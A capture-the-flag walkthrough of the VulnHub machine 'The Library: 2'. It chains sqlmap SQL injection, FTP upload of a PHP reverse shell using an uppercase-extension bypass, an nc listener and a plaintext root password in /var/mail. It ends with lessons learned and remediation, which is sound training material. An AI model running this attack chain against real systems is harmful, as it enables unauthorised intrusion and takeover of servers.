




# The Library: 2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.107 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Root Password** | Found in `/var/mail/welcome` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/the-library-2,562/) |

## Attack Summary

`nmap` → `dirb -X .php` finds `/library.php` → GET→POST SQLi via `sqlmap` → creds (`globus:AroundTheWorld`) → FTP login → upload `shell.PHP` (extension case bypass) → nc reverse shell → `/var/mail/welcome` contains root password → `su root`

## Methodology

1. Network discovery
2. Port scan: FTP (21), HTTP (80)
3. PHP endpoint discovery via dirb extension scan
4. SQL injection (GET→POST) with sqlmap
5. FTP credential access → PHP shell upload
6. Reverse shell via FTP-uploaded file
7. Root password in mail spool

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.107
```

Open ports: **21** (FTP), **80** (HTTP)



---

## Step 2: Web Enumeration with Extension Scan

Default dirb finds nothing. Scan for PHP files specifically:

```bash
dirb http://192.168.1.107 -X .php
```

Found: `/library.php` — displays country names.

Clicking a country name sends a GET request. Suspected SQL injection parameter.


---

## Step 3: SQL Injection — GET to POST

Capture the GET request in Burp Suite. The parameter doesn't inject via GET. Change the method to **POST** and save the request to a file named `sql`.

Run sqlmap:
```bash
# List databases
sqlmap -r sql --dbs --batch --risk 3 --level 5
```

Database found: `library`

```bash
# Dump the database
sqlmap -r sql -D library --dump-all --batch --risk 3 --level 5
```

Credentials recovered: **globus : AroundTheWorld**



---

## Step 4: FTP Login and Shell Upload

```bash
ftp 192.168.1.107
# Username: globus  Password: AroundTheWorld
ls
cd html
ls
```

Attempt to upload a PHP reverse shell:
```bash
put shell.php
# Fails — extension blocked
```

**Bypass:** rename the file with uppercase extension:
```bash
put shell.PHP
chmod 777 shell.PHP
```



The modified PentestMonkey reverse shell (`/usr/share/webshells/php/php-reverse-shell.php`) with attacker IP set.

---

## Step 5: Reverse Shell

Start listener:
```bash
nc -lvp 1234
```

Trigger the shell:
```
http://192.168.1.107/shell.PHP
```

Stabilize:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

---

## Step 6: Root via Mail Spool

```bash
cd /var/mail
ls
cat welcome
```

The `welcome` file contains the **root password in plaintext**.

```bash
su root
# Enter password from welcome file
id
# uid=0(root)
cat /root/root.txt
```



---

## Lessons Learned

1. **File extension blacklists** are trivially bypassed by changing case (`.php` → `.PHP`) on case-insensitive filesystems; use allowlists instead
2. **SQL injection via method switch (GET→POST)** — always test all HTTP methods when parameters seem non-injectable
3. **Root password in plaintext** in `/var/mail` — never store credentials in mail spools or world-readable files
4. **FTP credentials via SQLi** enable full server compromise when FTP serves the web root

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SQL injection in library.php | Use parameterized queries / prepared statements |
| FTP extension bypass | Use MIME-type validation, not extension check; deploy application-level sandboxing |
| Plaintext root password in /var/mail | Remove sensitive content from mail; rotate root password |
| FTP write access to web root | Isolate FTP from web root; use chroot |
